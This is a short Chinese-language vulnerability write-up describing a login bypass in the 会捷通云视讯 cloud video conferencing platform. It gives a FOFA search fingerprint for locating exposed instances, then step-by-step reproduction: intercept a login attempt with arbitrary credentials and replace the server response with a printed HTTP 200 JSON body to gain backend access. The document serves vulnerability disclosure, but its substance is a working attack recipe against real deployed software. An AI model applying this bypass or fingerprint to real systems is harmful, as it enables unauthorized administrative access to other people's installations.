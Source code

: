 # 会捷通云视讯 登录绕过漏洞

## 漏洞描述

会捷通云视讯存在登陆绕过漏洞，通过拦截特定的请求包并修改即可获取后台权限

## 漏洞影响

> [!NOTE]
>
> 会捷通云视讯

## FOFA

> [!NOTE]
>
> body="/him/api/rest/v1.0/node/role"

## 漏洞复现

登陆页面如下

![](http://wikioss.peiqi.tech/vuln/zc-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

输入任意账号密码抓包

![](http://wikioss.peiqi.tech/vuln/zc-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

修改返回包为如下后放包则成功绕过登录

```
HTTP/1.1 200 
Server: Hsengine/1.4.1
Date: Mon, 17 May 2021 16:13:43 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Accept-Ranges: bytes
Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept
Content-Length: 61

{"token":null,"result":null}
```

![](http://wikioss.peiqi.tech/vuln/zc-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)